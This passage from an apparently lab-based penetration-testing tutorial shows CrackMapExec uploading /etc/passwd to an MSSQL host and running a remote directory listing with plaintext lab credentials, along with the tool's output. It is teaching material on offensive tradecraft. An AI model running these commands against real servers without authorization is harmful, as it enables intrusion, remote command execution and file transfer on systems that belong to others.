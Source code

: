 MSSQL allows us to download and upload files using [OPENROWSET (Transact-SQL)](https://learn.microsoft.com/en-us/sql/t-sql/functions/openrowset-transact-sql) and [Ole Automation Procedures Server Configuration Options](https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option) respectively. CrackMapExec incorporates those options with `--put-file` and `--get-file`.

To upload a file to our target machine, we can use the option `--put-file` followed by the local file we want to upload and the destination directory.

### **Upload File**

```shell-session
$ crackmapexec mssql 10.129.203.121 -u nicole -p Inlanefreight02! --local-auth --put-file /etc/passwd C:/Users/Public/passwd

MSSQL       10.129.203.121  1433   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:DC01)
MSSQL       10.129.203.121  1433   DC01             [+] nicole:Inlanefreight02! (Pwn3d!)
MSSQL       10.129.203.121  1433   DC01             [*] Copy /etc/passwd to C:/Users/Public/passwd
MSSQL       10.129.203.121  1433   DC01             [*] Size is 3456 bytes
MSSQL       10.129.203.121  1433   DC01             [+] File has been uploaded on the remote machine
```

```shell-session
$ crackmapexec mssql 10.129.203.121 -u nicole -p Inlanefreight02! --local-auth -x "dir c:\Users\Public"

MSSQL       10.129.203.121  1433   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:DC01)
MSSQL       10.129.203.121  1433   DC01             [+] nicole:Inlanefreight02! (Pwn3d!)
MSSQL       10.129.203.121  1433   DC01             [+] Executed command via mssqlexec
MSSQL       10.129.203.121  1433   DC01             --------------------------------------------------------------------------------
MSSQL       10.129.203.121  1433   DC01             Volume in drive C has no label.
MSSQL       10.129.203.121  1433   DC01             Volume Serial Number is B8B3-0D72
MSSQL       10.129.203.121  1433   DC01             Directory of c:\Users\Public
MSSQL       10.129.203.121  1433   DC01             12/01/2022  04:22 AM    <DIR>          .
MSSQL       10.129.203.121  1433   DC01             12/01/2022  04:22 AM    <DIR>          ..
MSSQL       10.129.203.121  1433   DC01             10/06/2021  02:38 PM    <DIR>          Documents
MSSQL       10.129.203.121  1433   DC01             09/15/2018  01:19 AM    <DIR>          Downloads
MSSQL       10.129.203.121  1433   DC01             09/15/2018  01:19 AM    <DIR>          Music
MSSQL       10.129.203.121  1433   DC01             12/01/2022  04:22 AM             3,456 passwd
MSSQL       10.129.203.121  1433   DC01             09/15/2018  01:19 AM    <DIR>          Pictures
MSSQL       10.129.203.121  1433   DC01             09/15/2018  01:19 AM    <DIR>          Videos
MSSQL       10.129.203.121  1433   DC01             1 File(s)          3,456 bytes
MSSQL       10.129.203.121  1433   DC01             7 Dir(s)  10,588,659,712 bytes free
```

To download a file, we need to use the `--get-file` option followed by the file's path and set an output file name.
